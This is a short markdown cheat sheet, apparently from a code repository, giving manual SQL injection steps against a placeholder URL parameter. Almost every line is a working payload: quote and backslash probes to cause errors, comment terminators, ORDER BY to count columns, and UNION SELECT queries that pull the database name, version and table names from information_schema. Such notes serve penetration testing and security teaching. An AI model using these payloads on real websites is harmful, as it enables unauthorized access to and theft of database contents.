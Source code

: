 
## Practical Steps for Manual SQLi

### Testing to get a database Error

```sql
> http://blabla.com?id=1\
> http://blabla.com?id=1'
```

### Sql comment to correct the error

```sql
# + is the encode of space
> http://blabla.com?id=1\--+
> http://blabla.com?id=1'#
```

## join queries

### To see how many columns used in this query

```sql
# 3 is our guess for used columns
> http://blabla.com?id=1' order by 3 --+
```

### Reading data from database

```sql
# We usually get the output for one query only,
# So we should get rid of the first query by searching for
# a non exist value like -1
> http://blabla.com?id=-1' union all select 1,2,3 --+
```

### Getting database name and version

```sql
> http://blabla.com?id=-1' union all select 1,database(),version() --+
```

### Getting table name

```sql
# database name = security
> http://blabla.com?id=-1' union all select 1,table_name,3 from information_schema.tables where table_schema='security' --+
```

### Getting all tables names

```sql
# database name = security
> http://blabla.com?id=-1' union all select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
```

